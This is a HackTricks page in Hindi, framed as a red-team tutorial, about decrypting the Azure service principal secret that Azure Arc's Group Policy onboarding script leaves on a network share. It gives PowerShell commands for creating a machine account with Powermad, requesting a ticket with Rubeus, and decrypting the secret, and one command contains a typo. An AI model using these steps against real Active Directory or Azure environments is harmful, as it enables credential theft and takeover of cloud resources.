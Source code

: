 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### समस्याओं की पहचान करना

Azure Arc नए आंतरिक सर्वरों (जुड़े हुए डोमेन सर्वर) को Azure Arc में Group Policy Object विधि का उपयोग करके एकीकृत करने की अनुमति देता है। इसे सुविधाजनक बनाने के लिए, Microsoft एक तैनाती उपकरण प्रदान करता है जो ऑनबोर्डिंग प्रक्रिया शुरू करने के लिए आवश्यक है। ArcEnableServerGroupPolicy.zip फ़ाइल के अंदर, निम्नलिखित स्क्रिप्टें पाई जा सकती हैं: DeployGPO.ps1, EnableAzureArc.ps1, और AzureArcDeployment.psm1।

जब इसे निष्पादित किया जाता है, तो DeployGPO.ps1 स्क्रिप्ट निम्नलिखित कार्य करती है:

1. स्थानीय डोमेन के भीतर Azure Arc Servers Onboarding GPO बनाती है।
2. EnableAzureArc.ps1 ऑनबोर्डिंग स्क्रिप्ट को ऑनबोर्डिंग प्रक्रिया के लिए बनाए गए निर्दिष्ट नेटवर्क शेयर में कॉपी करती है, जिसमें Windows इंस्टॉलर पैकेज भी शामिल है।

इस स्क्रिप्ट को चलाते समय, सिस्टम प्रशासकों को दो मुख्य पैरामीटर प्रदान करने की आवश्यकता होती है: **ServicePrincipalId** और **ServicePrincipalClientSecret**। इसके अतिरिक्त, इसे डोमेन, शेयर होस्ट करने वाले सर्वर का FQDN, और शेयर नाम जैसे अन्य पैरामीटर की आवश्यकता होती है। स्क्रिप्ट को टेनेट आईडी, संसाधन समूह, और अन्य आवश्यक जानकारी जैसे विवरण भी प्रदान करने होंगे।

एक एन्क्रिप्टेड सीक्रेट AzureArcDeploy निर्देशिका में निर्दिष्ट शेयर पर DPAPI-NG एन्क्रिप्शन का उपयोग करके उत्पन्न होता है। एन्क्रिप्टेड सीक्रेट को encryptedServicePrincipalSecret नामक फ़ाइल में संग्रहीत किया जाता है। इसका प्रमाण DeployGPO.ps1 स्क्रिप्ट में पाया जा सकता है, जहां एन्क्रिप्शन $descriptor और $ServicePrincipalSecret को इनपुट के रूप में कॉल करके किया जाता है। डिस्क्रिप्टर में डोमेन कंप्यूटर और डोमेन कंट्रोलर समूह SIDs शामिल होते हैं, यह सुनिश्चित करते हुए कि ServicePrincipalSecret केवल डोमेन कंट्रोलर्स और डोमेन कंप्यूटर सुरक्षा समूहों द्वारा डिक्रिप्ट किया जा सकता है, जैसा कि स्क्रिप्ट टिप्पणियों में उल्लेख किया गया है।
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

हमारे पास निम्नलिखित शर्तें हैं:

1. हम आंतरिक नेटवर्क में सफलतापूर्वक प्रवेश कर चुके हैं।
2. हमारे पास Active Directory के भीतर एक कंप्यूटर खाते को बनाने या उस पर नियंत्रण करने की क्षमता है।
3. हमने AzureArcDeploy निर्देशिका वाले एक नेटवर्क शेयर का पता लगाया है।

AD वातावरण में एक मशीन खाते को प्राप्त करने के कई तरीके हैं। सबसे सामान्य तरीकों में से एक मशीन खाता कोटा का लाभ उठाना है। एक और तरीका कमजोर ACLs या विभिन्न अन्य गलत कॉन्फ़िगरेशन के माध्यम से मशीन खाते से समझौता करना है।
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
एक बार मशीन खाता प्राप्त हो जाने पर, इस खाते का उपयोग करके प्रमाणीकरण करना संभव है। हम या तो netonly ध्वज के साथ runas.exe कमांड का उपयोग कर सकते हैं या Rubeus.exe के साथ पास-थी-टिकट का उपयोग कर सकते हैं।
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
हमारी कंप्यूटर खाता के लिए TGT को मेमोरी में संग्रहीत करके, हम सेवा प्रमुख गुप्त को डिक्रिप्ट करने के लिए निम्नलिखित स्क्रिप्ट का उपयोग कर सकते हैं।
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
वैकल्पिक रूप से, हम [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) का उपयोग कर सकते हैं।

इस बिंदु पर, हम ArcInfo.json फ़ाइल से Azure से कनेक्ट करने के लिए आवश्यक शेष जानकारी एकत्र कर सकते हैं, जो एन्क्रिप्टेडServicePrincipalSecret फ़ाइल के समान नेटवर्क शेयर पर संग्रहीत है। इस फ़ाइल में विवरण शामिल हैं: TenantId, servicePrincipalClientId, ResourceGroup, और अधिक। इस जानकारी के साथ, हम Azure CLI का उपयोग करके समझौता किए गए सेवा प्रमुख के रूप में प्रमाणीकरण कर सकते हैं।

## संदर्भ

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
